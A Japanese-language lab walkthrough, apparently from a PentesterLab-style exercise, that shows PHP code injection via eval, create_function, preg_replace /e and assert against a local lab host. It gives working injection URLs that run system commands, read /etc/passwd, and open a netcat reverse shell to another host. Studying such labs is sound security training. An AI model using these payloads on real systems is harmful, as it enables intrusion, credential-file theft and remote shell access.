


このセクションでは、コードの実行について取り上げます。コード実行は、ユーザが制御するデータのフィルタリングやエスケープの欠如から発生します。コードインジェクションを悪用する場合、アプリケーションに送信する情報の中にコードを注入する必要があります。例えば、ls コマンドを実行したい場合、アプリケーションは PHP アプリケーションなので、system("ls") を送信する必要があります。   
ウェブアプリケーションの問題の他の例と同様に、残りのコードをコメントアウトする方法を知っていると常に便利です（つまり、アプリケーションがユーザー制御のデータに追加するサフィックス）。PHP では、アプリケーションによって追加されたコードを取り除くために // を使用することができます。   
SQLインジェクションと同様に、同じ値のテクニックを使って、コードインジェクションをテストし、確認することができます。   
- コメントを使用し、/* random value */を注入する。
- 単純に連結した "." を注入する(ここで、" は構文を破り、正しく再構築するために使用されます。)   
- ハッカーの代わりに「. "ha". "cker".」のように、提供したパラメータを文字列連結で置き換えることで、hackerにすることができます。
# <span style="color: blue;">Example1</span>
この最初の例は、些細なコードインジェクションです。シングルクォートを注入すると、何も起こりません。しかし、二重引用符を注入することで、問題のより良いアイデアを得ることができます。   
>http://192.168.100.185/codeexec/example1.php?name=hacker<span style="color:red;">"</span>   
> Parse error: syntax error, unexpected '!', expecting ',' or ';' in /var/www/codeexec/example1.php(6) : eval()'d code on line 1

>>この場合、シングルクォートを使用するとエラーが発生し、ダブルクォートを使用すると発生しないことがあります。   

二重引用符が構文を破り、関数evalが我々の入力を使っているように見えることを確認しました。このことから、同じ結果を得るためのペイロードを考え出すことができます。   
- <span style="color:DeepSkyBlue;">"."</span>: 文字列の連結を追加しているだけなので、これで同じ値が得られるはずです。
- <span style="color:DeepSkyBlue;">"./*pentesterlab*/"</span>: 文字列の連結とコメント内の情報を追加しているだけなので、これで同じ値が得られるはずです。   
さて、似たような値が動作するようになったので、コードを注入する必要があります。コードを実行できることを示すために、コマンドを実行してみましょう (たとえば uname -a でコードを実行します)。完全な PHP コードは次のようになります。
```
.system('uname -a');
```
ここでの課題は、コード構文から脱却し、きれいな構文を保つことです。やり方はいろいろあります。]
- ダミーコードの追加:<span style="color:DeepSkyBlue;">".system('uname -a'); $dummy="</span>
- コメントを使用:<span style="color:DeepSkyBlue;">".system('uname -a');#</span> or <span style="color:DeepSkyBlue;">".system('uname -a');//</span>   

リクエストを送信する前に、いくつかの文字（#と ;）をURLエンコードする必要があることを忘れないでください。
```
http://192.168.100.185/codeexec/example1.php?name=hacker
```
```
http://192.168.100.185/codeexec/example1.php?name=hacker#.system(%27uname%20-a%27)%3b%23
```
# <span style="color: blue;">Example 2</span>
情報を発注する際、開発者は2つの方法を使います。
- SQLリクエストでorder by
- PHPコードでusort

<u>関数 usort は、<span style="color:red;">関数 create_function</span> とともに、ユーザが管理する情報に基づいて動的に「ソート」関数を生成するためによく使われます。</u>ウェブアプリケーションが強力なフィルタリングと検証を欠いている場合、これはコードの実行につながる可能性があります。  
シングルクォートを注入することで、何が起こっているのかを知ることができます。   
http://192.168.100.185/codeexec/example2.php?order=id<span style="color:red;">'</span>    
>Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /var/www/codeexec/example2.php(22) : runtime-created function on line 1 Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/codeexec/example2.php on line 22

この関数のソースコードは次のようになります。
```
ZEND_FUNCTION(create_function)
{
  [...]
    eval_code = (char *) emalloc(eval_code_length);
    sprintf(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(%s){%s}", Z_STRVAL_PP(z_function_args), Z_STRVAL_PP(z_function_code));

    eval_name = zend_make_compiled_string_description("runtime-created function" TSRMLS_CC);
    retval = zend_eval_string(eval_code, NULL, eval_name TSRMLS_CC);
  [...]
```
  評価されるコードが中括弧{...}の中に入っているのがわかります。インジェクションの後、構文を正しく終了させるためには、この情報が必要なのです。   
  先ほどのコードインジェクションとは対照的に、ここではシングルクォートまたはダブルクォートの中にインジェクションするわけではありません。ステートメントを } で閉じ、残りのコードを // または # (エンコーディング付き) でコメントアウトする必要があることがわかります。次のように試してみることができます。
  - <span style="color:DeepSkyBlue;">?order=id;}//</span>:エラーメッセージが表示される(パースエラー: 構文エラー、予期しない ';').おそらく、1つ以上のブラケットが欠けているのでしょう。
  - <span style="color:DeepSkyBlue;">?order=id);}//</span>:警告を受ける。それくらいがちょうどいいようです。
  - <span style="color:DeepSkyBlue;">?order=id));}//</span>:エラーメッセージが表示される(パースエラー: 構文エラー、予期しない ')' i).閉じ括弧が多すぎるのでしょう。
 
 コードを正しく終了させる方法がわかったので（警告では実行の流れが止まらない）、任意のコードを注入してコード実行を得ることができる <span style="color:DeepSkyBlue;">?order=id);}system('uname%20-a');//</span>などで。
 ```
 http://192.168.100.185/codeexec/example2.php?order=id
 ```
 ```
 http://192.168.100.185/codeexec/example2.php?order=id);}system(%27uname%20-a%27);//
 ```
 # <span style="color: blue;">Example 3</span>
 以前、複数行の正規表現を使った正規表現修飾子についてお話しました。もうひとつ、非常に危険な修飾子がPHPに存在します。<span style="color: red;">PCRE_REPLACE_EVAL (/e) </span>です。この修飾子は、関数 preg_replace が置換を実行する前に新しい値を PHP コードとして評価するようにします。  
 >PCRE_REPLACE_EVAL は PHP 5.5.0 で非推奨となりました。  

>ここで、/e修飾子を付けて、パターンを変更する必要があります。このモディファイアを付けると、通知が来るはずです。   
>Notice: Use of undefined constant hacker - assumed 'hacker' in /var/www/codeexec/example3.php(3) : regexp code on line 1

```
http://192.168.100.185/codeexec/example3.php?new=hacker&pattern=/lamer/&base=Hello%20lamer
```
```
http://192.168.100.185/codeexec/example3.php?new=system(%27cat%20/etc/passwd%27)&pattern=/lamer/e&base=Hello%20lamer
```
php?new=<span style="color:DeepSkyBlue;">system('nc+-e+/bin/sh+192.168.100.191+4444')</span>&pattern=/lamer<span style="color:DeepSkyBlue;">/e</span>&base=Hello%20lamer

# <span style="color: blue;">Example 4</span>
この例は、assert 関数に基づいています。不正に使用された場合、この関数は受け取った値を評価します。この振る舞いを利用して、コードを実行させることができます。   
シングルクォートあるいはダブルクォート (文字列の宣言方法による) を注入することで、PHP がコードを評価しようとしたことを示すエラーメッセージを見ることができます。   
>Parse error: syntax error, unexpected T_ENCAPSED_AND_WHITESPACE in /var/www/codeexec/example4.php(4) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: 'hacker'' in /var/www/codeexec/example4.php on line 4

一度、構文を壊してしまったら、それを正しく再構築する必要があります。次のように試してみましょう。  
```
hacker'.'
```
エラーメッセージが消えました。
```
http://192.168.100.185/codeexec/example4.php?name=hacker
```
```
http://192.168.100.185/codeexec/example4.php?name=hacker%27.phpinfo().%27
```
burp suiteで実施した場合
```
http://192.168.100.185/codeexec/example4.php?name=hacker'.system('cat+/etc/passwd').'
```
